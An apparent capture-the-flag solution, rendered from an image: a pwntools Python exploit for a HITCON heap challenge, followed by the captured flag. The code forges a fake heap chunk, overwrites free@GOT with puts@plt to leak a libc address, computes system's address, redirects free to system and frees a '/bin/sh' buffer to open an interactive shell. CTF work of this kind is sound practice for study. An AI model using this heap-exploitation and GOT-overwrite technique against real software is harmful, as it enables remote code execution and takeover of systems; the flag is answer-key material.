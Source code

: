 ```python
payload += p64(chunk_list + 0x10 - 0x10) # fake_chunk -> bk
payload += "\x00" * 0xe0
payload += p64(0x100) # prve_size -> fake_chunk
payload += p64(0x110) # size, flag = 0
func_read(2, payload)

func_free(3)
s.recvuntil("OK\n")

payload = "\x00" * 0x10
payload += p64(free_got) # 1
payload += p64(puts_got) # 2
func_read(2, payload)

func_read(1, p64(puts_plt))

func_free(2) # libc_leak
libc_puts = u64(s.recvuntil("\x7f").ljust(8, "\x00"))
s.recvuntil("OK\n")

libc_base = libc_puts - puts_off
libc_system = libc_base + system_off

print
log.info("libc_base : " + hex(libc_base))
log.info("libc_puts : " + hex(libc_puts))
log.info("libc_system : " + hex(libc_system))
print

func_read(1, p64(libc_system))

func_malloc(0x18)
func_read(4, "/bin/sh\0")
func_free(4)

s.interactive()
```

### HITCON{ASZ0_H4eP_0VerFlOw_317H_sTrAn9e}
